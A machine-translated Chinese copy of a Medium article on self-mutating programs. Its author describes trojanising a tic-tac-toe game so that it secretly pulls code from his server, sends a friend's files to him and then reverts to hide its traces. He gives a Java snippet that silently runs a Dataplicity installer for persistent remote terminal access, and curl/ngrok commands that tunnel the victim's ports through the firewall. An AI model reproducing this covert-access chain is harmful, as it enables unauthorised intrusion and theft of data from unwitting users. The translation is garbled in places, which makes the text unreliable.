

# 自变异程序及其效果

> 原文：<https://medium.com/nerd-for-tech/self-mutating-program-and-its-affects-ea74753978d8?source=collection_archive---------18----------------------->

我先说什么是程序。拜托，每个人都知道:计算机执行来完成特定任务的一组指令——它接受一些数据作为输入，并产生一些输出。一个节目还有其他内容吗？不，我不这么认为。是的，你们中的一些人可能会说，像人工智能这样的程序也可以模仿人类的智能，不按照固定的程序处理数据。是的，我同意。但是即使它们遵循固定的指令集，即使指令非常复杂。

现在，从名字上来看，我确实希望大家清楚什么是“自我变异程序”。它是一个可以自己改变指令集的程序。那么，它会有什么影响呢？本质上，现在有 3 个选项:
1。该程序根据特定条件或人工智能生成自己修改的源代码。
2。有人建议对程序进行修改，程序就相应地修改自己。
3。新代码是什么已经在原始代码中指定了。

现在我们来具体情况具体分析。请看案例 1:程序生成自己修改过的源代码。是的，这确实是可能的。我所说的“特定条件”可能是像用户机器架构、特定硬件配置、特定文件的存在或不存在之类的东西。程序可以根据条件生成自己的新源代码。我不打算进入“人工智能”部分，因为我自己也不明白。我对它进行评论是不正确的。

案例二:有人建议编辑。是的，这是我个人最喜欢的一个。想象一下，你下载了一个像井字游戏这样的简单游戏，但是这个游戏自动地把自己变成了一个病毒，能够以任何它想要的方式损害你的系统。这听起来可能是假设，但我自己也写了同样的代码，它运行得非常好。(由于安全问题，该代码尚未公开发布。所以不要指望 GitHub 回购。:-P)。我曾经送给我的朋友一个简单的井字游戏。在他玩游戏的时候，我把修改过的代码存在了一个个人服务器上，游戏自动下载代码，根据代码修改自己，从他的机器上把个人文件发给我，然后自己又变回原来的无害游戏，等待我发出进一步的指令。看起来像好莱坞电影里的情节，对吧？不，不是的。我和一个朋友测试了它，它是完美的。

增加了更多的曲折。现在，告诉我我是如何托管代码的？一个简单的文本文件？是的。我做到了。包含恶意代码的简单文本文件。现在，我的代码是从哪里下载的？我朋友的机器，但我的朋友无论如何都不会知道(除非他检查通过互联网传输的数据包。)那么程序是在哪里变异的呢？我朋友的电脑。因此，当你要查找作者或原始机器的名字时，它会显示我朋友的名字。因此，没有一个单一的痕迹，我，最初的恶意代码的开发者。所以，没有人知道谁是恶意代码的作者。

在继续之前，我想说一下我的技能。我现在是一名大学新生，但我精通 Java(Oracle 认证助理，准确地说是 Java SE 8 程序员)。我对 Linux 和 Windows 命令行操作也有一定的了解。

好了，现在我们继续。再拧一下。希望你们知道数据政策。根据官方网站，“Dataplicity 让你控制、管理和维修你的设备，即使它们在你无法控制的蜂窝、卫星和固定网络之间漫游。”现在，让我们假设我是攻击者，而我的朋友是受害者。

假设我只是改变了原来的井字游戏，只增加了 3 行代码(我是用 Java 说的):

> *try {
> Runtime.getRuntime()。exec("<data policy 安装程序代码>")；
> } catch(excep 除外){}*

我已经在 Dataplicity 中创建了一个帐户，获得了包含安装程序代码的令牌。我刚刚把它加进了恶意的井字游戏里。然后嘣！我可以完全访问我朋友的电脑，而他对此一无所知。在 Dataplicity 安装完成后，我将代码远程还原为原始代码。现在，在我从系统中手动删除对他机器的访问权限之前，我拥有他电脑的永久终端访问权限。他甚至没有删除 Dataplicity 客户端的选项。类似于 data policy 的服务还有很多，但我更喜欢 data policy 本身。

准备好再来几下了吗？现在假设您已经成功地使用自变异代码将 Dataplicity 安装到受害者的设备中。现在你可以把“ngrok”下载到他的机器上，使用你自己的认证令牌并转发他的端口。现在什么是“ngrok”？据官方网站称，Ngrok 通过安全隧道将 NAT 和防火墙后的本地服务器暴露给公共互联网。还有类似 ngrok 的服务，比如 Localtunnel。Ngrok 不提供固定的 URL(在其免费层中),但是 localtunnel 提供。另一方面，设置 localtunnel 需要您拥有对受害者机器的 root 或 sudo 访问权限，而安装 ngrok 则不需要。因此 ngrok 是这里的最佳选择。很简单，curl ngrok 客户端，添加 authtoken。

> *$ curl <到 ngrok 代理 zip>-o ngrok . zip
> $ unzip ngrok . zip
> 的 url。/ngrok AUTHTOKEN<AUTHTOKEN>$。/ngrok http <端口>
> 或者
> $。/ngrok tcp <端口>
> 或
> $。/ngrok tls <端口>*

现在使用 dataplicity 的 ngrok 来暴露受害者计算机的端口。嘣！你也突破了防火墙。

惊心动魄，不是吗？当然了。而且原始游戏甚至不会被普通的抗病毒病毒标记出来，因为它看起来是无害的。当它自身变异时，反病毒软件可能会将其标记出来，但为时已晚。该程序可能已经开始执行，并且可能已经完成了恶意任务。抗病毒药物甚至可能无法标记它。

案例 3:原始程序已经指定了变异后的代码是什么。好吧，这没什么好激动的。这是因为通过这种方式，它只会发生固定且少量的变异。但是，在某些情况下仍然可以使用它。

作为结论，我想说的是，自我变异代码可以为黑客和网络罪犯提供一个巨大的窗口。自变异代码也可用于接入相连的硬件。在工业中，想象一台机器受到它的影响，反过来，它影响工业中所有的 PLC(可编程逻辑控制器)。现在没有一台物理机器正常工作。从工厂到医院，PLC 无处不在。甚至是核电站。想象一下，一小段看似无害的代码，攻破了每一道防火墙，给了攻击者终端访问权限并将代码上传到连接的硬件和 PLC，将私有文件发送给攻击者，等等。可能性就在攻击者的手中。一段无害的代码可以炸毁一座核电站，杀死很多人。这似乎只是好莱坞电影中的一个情节，但事实并非如此。我通过让 Dataplicity 终端访问受害者的机器并使用 arduino-cli，将恶意代码上传到受害者 pc 上连接的 Arduino 中。这表明，超越 PLC 并影响工业机器确实是可能的。还有什么？我还在连接了 ADB 的 android 手机上运行过命令。一切皆有可能。还可以访问受害者机器的私有 WiFi 网络或蓝牙 PAN(个人区域网络)。说真的一切皆有可能。我没有写一行没有测试自己。

小心，注意安全。攻击者的手段越来越多。你应该能保护自己。不幸的是，我不能建议任何方法来抵御这种攻击。这实际上可以成为零日攻击。

P.S .本文仅用于教育目的。这不是黑客教程。

视频演示:

[https://youtu.be/DBKMRpPZdO8](https://youtu.be/DBKMRpPZdO8)